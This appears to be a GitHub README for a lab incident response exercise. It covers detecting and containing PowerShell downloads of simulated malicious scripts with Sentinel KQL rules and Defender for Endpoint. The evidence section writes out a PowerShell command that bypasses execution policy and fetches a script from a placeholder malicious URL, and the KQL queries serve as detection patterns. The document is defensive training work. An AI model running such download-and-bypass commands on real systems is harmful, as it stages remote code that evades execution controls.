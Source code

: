 
# Incident Response: 🚨Suspicious PowerShell Activity Detection & Containment

This project demonstrates a real-world scenario of detecting and responding to post-exploitation activity using Microsoft Defender for Endpoint (MDE) and Microsoft Sentinel. The attacker leveraged native tools (living off the land binaries) in this case, PowerShell to download and potentially execute malicious scripts. The incident was triaged, contained, and documented using best practices based on the **NIST 800-61r3 Incident Response Lifecycle**.

---

## 📌 Scenario Overview

Attackers often use built-in tools like `powershell.exe` to avoid detection when downloading malicious payloads. In this simulated attack, PowerShell was used to run `Invoke-WebRequest` and retrieve various scripts from the internet.

Key script activities included:
- Simulated malware test file (`eicar.ps1`)
- Fake data exfiltration (`exfiltratedata.ps1`)
- Network port scanning (`portscan.ps1`)
- (Optional) Ransomware simulation (`pwncrypt.ps1`)

---

## 🔍 Detection & Alerting

A **Scheduled Analytics Rule** was created in Microsoft Sentinel to identify suspicious web requests via PowerShell:

### 🔎 KQL Query:
```kql
let TargetHostname = "Yusuf-vm";
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```
---

## 🔔 Alert Configuration

- **Rule Name**: Yusuf-Rule (PowerShell Suspicious Web Request)
- **Run Frequency**: Every 4 hours
- **Entity Mapping**: Device, Account, Process
- **Incident Creation**: Enabled

### MITRE ATT&CK:
- **T1059.001** – Command and Scripting Interpreter: PowerShell
- **T1105** – Ingress Tool Transfer

---

## ⚙️ Incident Workflow

| Phase                | Actions Taken                                                                 |
|----------------------|-------------------------------------------------------------------------------|
| Preparation          | Tools and alerting rules were configured; test scripts were pre-loaded.      |
| Detection & Analysis | Alert triggered from Sentinel. Logs confirmed multiple suspicious downloads. |
| Containment          | `yusuf-vm` was isolated using Microsoft Defender for Endpoint.               |
| Eradication & Recovery | Verified script behavior; anti-malware scan run; system returned to normal. |
| Post-Incident        | User enrolled in cybersecurity awareness training; PowerShell access restricted.|

---

## 📂 Evidence & Artifacts

### 🧾 Alert Triggered Commands
```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri "<malicious_url>" -OutFile "C:\programdata\<script>.ps1"
```

### 🛠️ Executed Scripts
- `eicar.ps1` – Antivirus test  
- `exfiltratedata.ps1` – Simulated exfil  
- `portscan.ps1` – Internal port scan  
- `pwncrypt.ps1` – (Ransomware)  

### 🧪 Post-Isolation Query
```kql
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == "Yusuf-vm"
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
```

## 🛡️ Response Actions

After detecting suspicious PowerShell activity, the following response steps were executed:

| **Action**                  | **Description**                                                                 |
|-----------------------------|---------------------------------------------------------------------------------|
| **🔒 Host Isolation**        | `yusuf-vm` was isolated using Microsoft Defender for Endpoint to prevent further compromise. |
| **🔍 Script Analysis**       | Reviewed the downloaded scripts to understand their intent and assess potential damage. |
| **🧼 Malware Scanning**      | Performed a full anti-malware scan to ensure the system was clean.              |
| **♻️ Restoration**           | Verified system stability and safely returned the host to the network.         |
| **🚫 Policy Enforcement**    | Applied PowerShell usage restrictions for non-admin users to reduce the attack surface. |
| **📚 User Awareness Training** | Enrolled the user in cybersecurity awareness training to prevent future incidents. |






---
## 📝 User Interaction
The user was contacted and reported that they had attempted to install a free piece of software around the time the scripts were executed. They mentioned seeing a brief black screen, after which "nothing happened." This matched the timeline of the suspicious activity.

## 🔍 Script Analysis
Using Microsoft Defender for Endpoint, we verified that the downloaded scripts did indeed execute. The following query was used for confirmation:

```kql
let TargetHostname = "yusuf-vm";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName
```
---
##  🧪 Script Review (Malware Reverse Engineering)
The scripts were submitted to the malware reverse engineering team for analysis. Below are the summaries provided for each script:

**`Portscan.ps1`**: Scans a specified range of IP addresses for common open ports and logs the results.

**`eicar.ps1`**: Creates a standard EICAR test file to verify antivirus software detection capabilities.

**`exfiltratedata`**.ps1: Generates fake employee data, compresses it, and prepares it for simulated exfiltration.

**`pwncrypt.ps1`**: Analysis Pending — confirmation required

---

## ✅ Post-Incident Activities
**User Awareness** Training: The user was enrolled in additional cybersecurity awareness training via KnowBe4, with increased frequency.

**Policy Enforcement**: Initiated the implementation of a policy to restrict PowerShell access for non-essential users.


---

# ✅ Key Takeaways

- PowerShell misuse is a common vector for attackers post-compromise.  
- Native tools like Microsoft Defender for Endpoint (MDE) and Microsoft Sentinel are powerful for detection and response.  
- Simulated attack scenarios help reinforce skills in threat detection, incident handling, and automation of security controls.  
- Response must include both technical and user-based remediation (e.g., training and policy enforcement).

---
